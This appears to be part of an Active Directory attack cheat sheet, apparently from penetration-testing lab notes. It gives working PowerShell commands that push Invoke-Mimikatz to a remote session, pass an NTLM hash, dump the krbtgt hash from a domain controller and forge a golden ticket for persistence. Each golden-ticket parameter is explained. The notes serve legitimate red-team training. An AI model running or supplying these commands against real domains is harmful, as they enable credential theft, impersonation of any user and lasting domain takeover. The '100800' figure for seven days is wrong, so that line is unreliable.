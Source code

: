 File transfer to remote server:
```powershell
Copy-Item -ToSession $sess -Path C:\Users\Public\Invoke-Mimikatz.ps1 -Destination C:\Users\Public\Invoke-Mimikatz.ps1
```

Load a script into the session:
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1 -Session $sess
```

## Pass the Hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

# Persistence 

## Golden Ticket

Golden Ticket is a late-stage attack which requires the hash of the `krbtgt` account, which means we need replication privileges or domain admin access.

A golden ticket is signed and encrypted by the hash of `krbtgt` account which makes it a valid TGT ticket. 

Since user account validation is not done by Domain Controller (KDC service) until the TGT is more than 20 minutes old, we can even use deleted/revoked accounts.

The `krbtgt` user hash could be used to impersonate **any user** with **any privileges** from even a non-domain machine.

```powershell
# Execute Mimikatz on DC as DA to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::lsa/patch"' -Computername dcorp-dc

# On any machine, supply krbtgt hash to create a golden ticket
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"' 
```

### Command Explained
- `kerberos::golden` - Name of the module
- `/User:Administrator` - Username for which the TGT is generated
- `/domain:dollarcorp.moneycorp.local` - Domain FQDN
- `/sid:S-1-5-21-1874506631-3219952063-538504511` - Domain SID
- `/krbtgt:ff46a9d8bd66c6efd77603da26796f35` - NTLM(RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys.
- `/id:500 /groups:512` - Optional UserRID (default 500) and Group (default 513 512 520 518 519)
- `/ptt or /ticket` - Injects the ticket in current PowerShell process - no need to save the ticket on disk, or saves the ticket to a file for later use
- `/startoffset:0` - Optional when the ticketis available (default 0 -right now) in minutes. Use negative for a ticket available from past and a larger number for future.
- `/endin:600` - Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes
- `/renewmax:10080` - Optional ticket lifetime with renewal(default is 10 years) in minutes. The default AD setting is 7 days = 100800
